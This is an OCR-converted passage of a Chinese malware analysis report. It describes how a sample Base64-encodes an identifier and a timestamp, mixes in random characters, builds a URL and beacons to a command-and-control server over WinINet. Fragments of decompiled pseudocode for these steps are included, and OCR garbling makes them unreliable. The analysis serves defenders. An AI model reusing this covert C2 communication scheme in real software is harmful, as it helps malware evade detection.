 017BC6BA368  

![](https://cdn-mineru.openxlab.org.cn/extract/7d801c0b-c0eb-45af-b8ad-72070507f6df/b0ea62afee700962ae7b2996bada3079c8e7b25069fccec46bfc083bf41e5be6.jpg)  
图26标识后添加数据示例  

$\vee2=$ LocalA1loc(0x40u, 0x19001ui64);   
Time $=$ time64(0i64);   
$v3=$ localtime64(&Time);   
wprintf_( Src, L"%04d-%02d-%02d %02d:%02d:%02d", (v3->tm_year $^+$ 1900), (v3->tm_mon $^{+1}$ v3->tm_mday, v3->tm_hour $^+\nobreakspace1\nobreakspace$ ， v3->tm_min + 1, v3->tm_sec + 1);   
$\vee4=-1\dot{1}64$   
$v5=5r c$   
do  

样本将之前生成的十六字节标识与获取的系统时间戳结合在一起，并对这个数据组合进行Base64编码。  

$v66~=~v13$   
LODWORD(a8) $=113$   
if（a4）   
{ v14 $=$ base64_encode(a4, a3,&v65); v11 $=$ v65; Block $=~\phantom{-}\nabla14$   
if （Src） $\vee15=$ base64_encode(Src, v9, &Size); //16字节进行base64编码 V12 $=$ Size; V62 $\smash{\chi=\vee1}$ 5;   
if （ lp0ptional) v16 $=$ base64_encode(lp0ptional，v10，&a8)；//时间戳 进行base64编码 v13 $=$ a8; v66 $=$ a8; V6A $=$ v16:  

在后续阶段中，样本展示了其与远程控制服务器（C2）通信的高级策略。首先，样本创建了一系列随机字符，这些字符的生成显著增加了每次操作的唯一性和难以预测性。然后，样本将这些随机字符与之前通过Base64编码得到的数据进行拼接，形成了一个特定的数据字符串。  

![](https://cdn-mineru.openxlab.org.cn/extract/7d801c0b-c0eb-45af-b8ad-72070507f6df/0544ba45d32d40080bbe1db7b2d795a900c72795cde90fae5396b25e668d0074.jpg)  
图28将数据进行base64编码  

这个拼接后的字符串用于后续与C2服务器的通信。这种做法的关键在于，通过结合随机字符和编码数据，样本能够有效地掩蔽其真实通信内容，同时也确保了每次通信的唯一性。这不仅增加了追踪和识别的难度，也提高了整个通信过程的安全性和隐蔽性。此外，此策略的运用也表明了攻击者对数据封装和网络通信隐蔽性方面的深入理解和高超技巧。  

![](https://cdn-mineru.openxlab.org.cn/extract/7d801c0b-c0eb-45af-b8ad-72070507f6df/fb7110f9d0b9f00f912d95a1f8fa72e5aa527423e387ae5a3a5c392b6a46bf3b.jpg)  
图30拼接URL  

在与C2服务器建立连接的过程中，样本首先关注于执行一个至关重要的步骤：精确地设置HTTP请求头的相关信息。紧接着，样本将之前生成并经过处理的字符串发送到服务器。  

![](https://cdn-mineru.openxlab.org.cn/extract/7d801c0b-c0eb-45af-b8ad-72070507f6df/0c6eec2a0af4f3a5bdaf0c273b156885ba23aeb517c0489225522f2a1b1224d5.jpg)  
图31设置请求相关信息  

![](https://cdn-mineru.openxlab.org.cn/extract/7d801c0b-c0eb-45af-b8ad-72070507f6df/e12a4966da8ac02d6c9d41160ca17625e4eb4b1bbfc256ec1ded8aa204379c62.jpg)  
图32发送请求  

在成功设置HTTP请求头并向C2服务器发送了加工后的字符串之后，样本进入了攻击流程的下一个关键阶段：接收来自C2服务器的数据。这一步骤对于样本执行后续指令或更新其配置至关重要。  

$v2=\theta;$   
dwNumberOfBytesRead =0;   
dwNumberOfBytesAvailable = 0;   
if（!hRequest） return 0i64;   
memset(Buffer,0, 261);   
dwBufferLength = 261;   
if（!HttpQueryInfoA(hRequest，19u，Buffer，&dwBufferLength，Qi64）Il atoi(Buffer）!= 200 ）// 状态码查询 return 0i64;   
for ( ; InternetQueryDataAvailable(hRequest, &dwNumberOfBytesAvailable, 0, 0i64); $\times2+=$ dwNumberOfBytesRead )   
{ V6 = dwNumberOfBytesAvailable; if （!dwNumberOfBytesAvailable) break; if（136633-v2< dwNumber0fBytesAvailable) v6 = 136633 - v2; dwNumberOfBytesRead = v6; if（!v6） break; if （ !InternetReadFile(hRequest, (a1 + v2), v6, &dwNumber0fBytesRead)) return 0i64;   
\*a2 = v2;   
sub_17BC6B1FE0();   
return 1i64;  
